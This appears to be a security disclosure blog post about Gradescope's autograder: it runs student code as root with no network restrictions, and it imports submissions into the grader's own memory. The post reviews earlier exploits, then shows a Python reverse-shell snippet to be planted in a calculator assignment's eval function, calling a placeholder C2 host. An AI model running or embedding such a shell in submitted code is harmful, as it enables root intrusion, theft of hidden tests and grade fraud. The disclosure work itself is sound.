 It should be noted that this entire chain runs as root, and that there is no network firewall imposed on any process -- neither within the Docker container, nor at the host level.

Another thing to note is that many autograder clients score student code by importing student code as a module, rather than by running the student code as a separate process (potentially with different user privileges) and using interprocess communication (IPC) to check test results. This means that student code often has access to autograder client code's memory, and depending on the language, can easily access variables that would be otherwise out of scope (e.g. by using Python's `inspect.stack`).

For more information, refer to [Gradescope's autograder documentation](https://gradescope-autograders.readthedocs.io/en/latest/manual_docker/).

# Exploring autograder vulnerabilities

Within the above flow, Gradescope's default autograder setup does not implement any kind of security restrictions and trusts arbitrary student code entirely.

Since 2016, there have been a number of examples of how student code can abuse this trust:

* In 2016, MIT students [discovered](https://courses.csail.mit.edu/6.857/2016/files/20.pdf#subsection.5.3) that **Gradescope does not limit network connections or file system access for student code; Gradescope also runs all submissions as root**.
* In 2019, a UPenn student published a [proof-of-concept](https://www.seas.upenn.edu/~hanbangw/blog/hack-gs/) method for changing one's grade, modifying the `run_autograder` shell entrypoint to have arbitrary writes to `results.json` take final effect.
* In 2020, another [writeup](https://medium.com/@andylyu/how-a-frustrating-computer-science-assignment-lead-to-me-gaining-access-to-the-server-that-graded-502310cf03ae) was published that demonstrated how to gain unrestricted access to the Docker container hosting an autograder by running a reverse shell from submitted code. This also allowed exfiltrating hidden test cases.

Gradescope's response to the 2020 writeup acknowledged these issues, but suggested it would be difficult to remediate any of the insecurities while maintaining compatiblility with most custom autograder client code.

In my February 2023 testing of Gradescope's Ubuntu 22.04 base Docker image and an example [Python calculator](https://github.com/gradescope/autograder_samples/tree/master/python) autograder, I was able to replicate and exploit each of the above vulnerabilities.

For my testing, I created a test course called *RCE 101: Introduction to Remote Code Execution* deploying Gradescope's example Python calculator assignment and associated autograder client code.

## Reverse shell and hidden test case exfiltration

It's not particularly difficult to get a root reverse shell on a Gradescope autograder Docker container. Since there is no firewall or other network request blocking on the Docker container or its host, we can make arbitrary outbound network requests, including creating reverse shells.

Additionally, the student runs as root, so the reverse shell will also inherit root privileges.

Starting from the Python calculator [official solution](https://github.com/gradescope/autograder_samples/blob/master/python/src/solution/calculator.py), all we need to do is add this code to the `eval` function -- a function we can predict will be run by the client code test suite:

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("C2_HOST_IP", C2_PORT))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("/bin/sh")
```
